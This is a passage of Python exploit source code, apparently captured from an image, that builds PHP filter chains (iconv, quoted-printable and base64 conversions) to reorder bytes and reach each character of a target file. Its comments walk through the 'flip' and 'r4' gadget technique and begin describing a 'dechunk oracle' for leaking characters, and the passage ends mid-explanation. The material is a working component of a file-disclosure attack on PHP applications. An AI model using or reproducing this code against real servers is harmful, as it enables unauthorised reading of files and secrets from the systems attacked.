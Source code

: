 ```python
we apply convert.iconv.CSUNICODE.CSUNICODE it will be two more than a multiple of four, which is no  
good for our r4 gadget. This is where the double equals we required in step 1 comes in! Because it  
turns out, if we apply the filter  
convert.quoted-printable-encode|convert.quoted-printable-encode|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.L1.utf7  
  
It will turn the == into:  
+---AD0-3D3D+---AD0-3D3D  
  
And this is magic, because this corrects such that when we apply the  
convert.iconv.CSUNICODE.CSUNICODE filter the resuting string is exactly a multiple of four!  
  
Let's recap. We have a string like:  
abcdefghij==  
  
Apply the convert.quoted-printable-encode + convert.iconv.L1.utf7:  
abcdefghij+---AD0-3D3D+---AD0-3D3D  
  
Apply convert.iconv.CSUNICODE.CSUNICODE:  
<0xff><0xfe>abcdefghij+---AD0-3D3D+---AD0-3D3D  
  
Apply r4 gadget:  
ba<0xfe><0xff>fedcjihg---+-0DAD3D3---+-0DAD3D3  
  
Apply base64-decode | base64-encode, so the '-' and high bytes will disappear:  
bafedcjihg+0DAD3D3+0DAD3Dw==  
  
Then apply r4 once more:  
efabijcd0+gh3DAD0+3D3DAD==wD  
  
And here's the cute part: not only have we now accessed the 5th and 6th chars of the string, but  
the string still has two equals signs in it, so we can reapply the technique as many times as we  
want, to access all the characters in the string ;)  
"""  
  
flip = "convert.quoted-printable-encode|convert.quoted-printable-encode|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.CSUNICODE.CSUNICODE|convert.iconv.UCS-4LE.10646-1:1993|convert.base64-decode|convert.base64-encode"  
r2 = "convert.iconv.CSUNICODE.UCS-2BE"  
r4 = "convert.iconv.UCS-4LE.10646-1:1993"  
  
  
def get_nth(n):  
    global flip, r2, r4  
    o = []  
    chunk = n // 2  
    if chunk % 2 == 1: o.append(r4)  
    o.extend([flip, r4] * (chunk // 2))  
    if (n % 2 == 1) ^ (chunk % 2 == 1): o.append(r2)  
    return join(*o)  
  
  
"""  
Step 3:  
This is the longest but actually easiest part. We can use dechunk oracle to figure out if the first  
char is 0-9A-Fa-f. So it's just a matter of finding filters which translate to or from those  
chars. rot13 and string lower are helpful. There are probably a million ways to do this bit but  
I just bruteforced every combination of iconv filters to find these.  
  
Numbers are a bit trickier because iconv doesn't tend to touch them.  
```